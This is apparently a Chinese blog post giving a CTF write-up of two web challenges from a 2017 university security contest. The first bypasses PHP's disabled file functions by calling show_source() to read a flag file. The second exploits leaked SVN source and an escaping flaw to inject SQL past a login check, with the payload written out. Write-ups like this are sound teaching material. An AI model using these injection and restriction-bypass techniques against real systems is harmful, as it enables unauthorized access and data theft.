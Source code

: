 ```yaml
---
title: 国赛的两个Web题
date: 2017-09-10 15:58:56
tags:
	- CTF
	- 全国大学生信息安全竞赛
	- Writeup
---
```

在全国大学生信息安全竞赛(线上赛)上划了波水，对我来说题目挺难的，好多姿势都没见过。
<!-- more -->

## 0x00 两个最简单的Web的题解


### Web-PHP execise
这个题目考察了PHP的几个简单的语法
首先在题目中执行phpinfo()函数
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-1.png)
在其中的找到被禁用的函数

```
disable_functions
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir,
```
然后通过getcwd()函数获取服务器当前目录路径
```
echo getcwd()
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-2.png)
从而获取路径

```
/var/www/html
```
然后获取当前目录下的所有文件的文件名
```
$dir="/var/www/html";print_r(scandir($dir))
```
![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-3.png)
判断flag在flag_62cfc2dc115277d0c04ed0f74e48e3e9.php这个文件中，但是PHP几乎所有对文件操作的函数都被禁用了。在这时想到了以前表哥们给我们出题的时候，有的Web题的源码直接显示在网页上了，利用的show_source()函数.于是乎：

```
include"flag_62cfc2dc115277d0c04ed0f74e48e3e9.php";show_source("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php")
```
从而获取flag

![image](http://osn75zd5c.bkt.clouddn.com/Web-PHPexcise-4.png)

### Web-wanna to see your hat?
这题有毒，不拿到flag就给你10个绿帽子。。(╯‵□′)╯︵┻━┻

主要考察的代码审计和SQL注入。首先有一个SVN源码泄露漏洞，利用工具将网站所有的源码下载下来，进行审计。关键代码如下:

```
$_POST=d_addslashes($_POST);
$_GET=d_addslashes($_GET);
function d_addslashes($array){
        foreach($array as $key=>$value){
        if(!is_array($value)){
            !get_magic_quotes_gpc() && $value=addslashes($value);
            waf($value);
            $array[$key]=$value;
        }   
    }   
    return $array;
}
function waf($value){
    $Filt = "\bUNION.+SELECT\b|SELECT.+?FROM";
    if (preg_match("/".$Filt."/is",$value)==1){
        die("found a hacker");
    }
    $value = str_replace(" ","",$value);  
    return $value;
}
if (isset($_POST["name"])){
  $name = str_replace("'", "", trim(waf($_POST["name"])));
  if (strlen($name) > 11){
    echo("<script>alert('name too long')</script>");
  }else{
    $sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
    echo $sql;
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if ($row[0]){
      $_SESSION['hat'] = 'black';
      echo 'good job';
    }else{
	$_SESSION['hat'] = 'green';
    }
```
最终目的是令$_SESSION['hat'] = 'black';这也就意味着在执行SQL语句时，可以返回数据。但是，在register.php的插入语句为

```
$sql = "insert into t_user (username,nickname,password) values('".$_POST['username']."', '".$_POST['nickname']."','".md5($_POST['password'])."')";
```
它注册时写入数据的表与登陆时查询的表不是一个，这也把我的思路带偏了，我一开始认为，在register.php里面构造语句在t_info表中插入数据。但根据查到的资料显示，SQL只允许一个插入语句对一个表操作。没辙了。。去请教表哥们。
关键点在login.php，即登录界面。
关键语句
```
$name = str_replace("'", "", trim(waf($_POST["name"])));
```
在POST传入name时，如果传进的字符串中有“'”单引号，则会被加上反斜杠进行转义，然后在waf里面，若有空格则会被去掉。然后“\'”中的单引号被去掉，成为了“\”,若这个反斜杠在结尾，则会把 
```
$sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
```
第一个name的第二个单引号转义，导致

```
$name' or nickname =
```
成为了字符串。因此令

```
name==(0)=1#'
```
最终执行的SQL语句为
```
$sql = "select count(*) from t_info where username = '=(0)=1#\' or nickname = '=(0)=1#\'";
```
该语句为真，因此返回数据，使得$_SESSION['hat'] = 'black';从而返回flag
![image](http://osn75zd5c.bkt.clouddn.com/Web-green-1.png)
